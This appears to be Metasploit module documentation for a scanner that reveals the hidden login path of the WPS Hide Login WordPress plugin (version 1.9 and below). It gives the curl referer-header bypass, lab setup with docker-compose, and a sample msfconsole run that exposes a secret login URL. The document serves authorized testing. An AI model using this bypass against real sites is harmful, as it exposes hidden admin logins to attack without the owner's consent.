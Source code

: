 ## Vulnerable Application

This module exploits a bypass issue with WPS Hide Login version <= 1.9.  WPS Hide Login
is used to make a new secret path to the login page, however a `GET` request to
`/wp-admin/options.php` with a `referer` will reveal the hidden path.

This emulates the following `curl` command: `curl --referer "something" -sIXGET http://<ip>/wp-admin/options.php`

### Wordpress Installation
To install a vulnerable version of the program create a new directory called `wordpress`.
Go inside this directory and create a file named `docker-compose.yml` with the following contents:

```
version: '3.3'

services:
   db:
     image: mysql:5.7
     volumes:
       - db_data:/var/lib/mysql
     restart: always
     environment:
       MYSQL_ROOT_PASSWORD: somewordpress
       MYSQL_DATABASE: wordpress
       MYSQL_USER: wordpress
       MYSQL_PASSWORD: wordpress

   wordpress:
     depends_on:
       - db
     image: wordpress:latest
     ports:
       - "8000:80"
     restart: always
     environment:
       WORDPRESS_DB_HOST: db:3306
       WORDPRESS_DB_USER: wordpress
       WORDPRESS_DB_PASSWORD: wordpress
       WORDPRESS_DB_NAME: wordpress
volumes:
    db_data: {}
```

Then run `sudo docker-compose up -d`. Confirm with `sudo docker ps -a` that you have
a running instance of WordPress and MySQL after this is complete. Then browse to
`http://127.0.0.1:8000` and complete WordPress setup.

### Plugin Installation
1. Go to https://downloads.wordpress.org/plugin/wps-hide-login.1.9.zip
1. Log in to WordPress
1. Go to `Plugins` and then `Add New` and click `Upload Plugin` and select the downloaded ZIP file.
1. Click `Install Now`
1. Click `Activate Plugin` on the install page confirming the install succeeded.
1. Go to `/wp-admin/plugins.php`
1. Find the WPS Hide Login plugin, click `Settings`.
1. Find the section named `Login URL` and change its value to a value of your choice.
1. Click `Save Changes`.
1. Logout. You are ready to test!

## Verification Steps

1. Install the vulnerable plugin and set a new login page
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_wps_hide_login_revealer`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should find the hidden login page

## Options

## Scenarios

### WPS Hide Login version 1.9.0 on Wordpress 5.4.8 running on Ubuntu 20.04

```
resource (hide_login.rb)> use auxiliary/scanner/http/wp_wps_hide_login_revealer
resource (hide_login.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (hide_login.rb)> set verbose true
verbose => true
resource (hide_login.rb)> run
[*] Checking /wp-content/plugins/wps-hide-login/readme.txt
[*] Found version 1.9 in the plugin
[+] 1.1.1.1 - Vulnerable version of wps_hide_login detected
[*] 1.1.1.1 - Determining login page
[+] Login Page: http://1.1.1.1/supersecret/?redirect_to=%2Fwp-admin%2FilOYZU&reauth=1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
